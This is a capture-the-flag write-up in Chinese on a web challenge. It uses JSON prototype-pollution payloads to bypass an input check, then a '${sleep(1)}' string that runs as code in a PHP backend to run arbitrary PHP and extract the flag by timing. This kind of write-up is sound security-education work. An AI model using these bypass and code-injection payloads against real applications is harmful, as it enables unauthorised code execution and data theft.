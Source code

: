 # 114514 CALCALCALC

這題跟 RCTF calcalcalc 基本上差不多

不過他改了一些地方

原本的正規表達式限制:

```
if (!/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/i.test(str)) {
    return false;
}
```

被改成:

```
if (str !== "114+514") {
    return false;
}
```

然後 backend-python 的 app.py 改成:

`#del __builtins__['exec']`

其他的話還有一些小地方被改掉，例如:

controller的`bson.serialize`換成`JSON.stringify`、`bson.deserialize(p.data)`換成`JSON.parse(p.data)`

所以這題在最一開始就被 `str !== "114+514"` 擋死死的

要找其他方法繞掉這個判斷

後來 fuzzing 發現: 

`{"__proto__":null, "expression": "114+514", "isVip":true}` => 噴500

`{"__proto__":{"constructor":"a"}, "expression": "114+514", "isVip":true}` => 噴500

`{"__proto__":{"constructor":false}, "expression": "114+514", "isVip":true}` => OK

猜測應該能 Prototype Pollution 搞事

最後 fuzzing 出:

`{"__proto__":{"constructor":null},"expression":"5278123+1", "isVip":true}` 這樣就能繞掉

但確切原因不知道為啥XDD

繞掉之後，由於他這次可能有把 timeout 問題處理好，所以原本的 python time-based 解法無法使用

後來 [@bookgin](https://github.com/BookGin) 想到一種可以通用三種語言的 payload: `"${sleep(1)}"`

在node.js、python裡是單純字串，可以對PHP來說他會去跑`sleep(1)`

同理，我們也可以跑任意php code

這邊一樣用 time-based 去慢慢撈 flag 就行

`flag{114 514 1919 810 is a magic bumber}`

